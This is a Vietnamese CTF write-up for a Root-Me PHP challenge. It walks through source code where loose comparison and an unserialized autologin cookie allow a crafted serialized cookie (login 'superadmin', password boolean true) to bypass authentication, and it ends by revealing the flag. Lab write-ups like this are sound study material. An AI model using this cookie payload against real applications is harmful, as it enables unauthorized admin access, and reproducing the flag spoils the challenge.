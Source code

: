 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/481d66a5-1e5a-40d8-a5a1-7d6e135d7297)

Xem source code

![image](https://github.com/user-attachments/assets/54195e2b-7509-47b1-9490-8f46787ac6db)

![image](https://github.com/user-attachments/assets/9c192068-4c94-446a-8d9d-71ccbde85e5f)

Đọc source code này ta có thể thấy được 4 điểm chính
+ mật khẩu sẽ được mã hóa bằng sha256 => chuỗi hex
```
if($_POST['login'] && $_POST['password']){
        $data['login'] = $_POST['login'];
        $data['password'] = hash('sha256', $_POST['password']);
    }
```

+ check password đang sử dụng loose comparison . mà theo cái bảng ở README.md thì 1 chuỗi và giá trị true sẽ bằng nhau
=> ta có thể nhập cho password giá trị TRUE để bypass
```
// check password !
    if ($data['password'] == $auth[ $data['login'] ] ) {
        $_SESSION['login'] = $data['login'];
```

nhưng mà vấn đề đến rồi =))) mọi input ở password sẽ được hash.  vậy nên ta có điểm lưu ý số 3 là 

+ khi giá trị autologin === 1 thì hàm serialize($data) sẽ chuyển đổi biến $data thành một chuỗi dạng serialized. Trước đó, biến $data đã được khởi tạo với các giá trị như "login" và "password" 
```
if($_POST['autologin'] === "1"){
            setcookie('autologin', serialize($data));
        }
```
+ để bypass thì ta phải để login = superadmin

```
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
```

![image](https://github.com/user-attachments/assets/590a134d-82ab-45c1-b710-661006e47ea4)

:v đọc tài liệu có gắn link trên rootme ta thấy 1 vector có thể exploit

![image](https://github.com/user-attachments/assets/59af0b98-bd2b-4984-afec-cde2c6e2c9de)

cookie autologin có thể thay đổi nên ta sử dụng payload 
```
autologin=a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
```

nhá nhẹ b:1 = TRUE =))) còn lại thì ae tự tìm hiểu thêm nhé

![image](https://github.com/user-attachments/assets/9ca361fc-0f5b-45e6-8d96-17737360fb88)

=> NoUserInputInPHPSerialization!
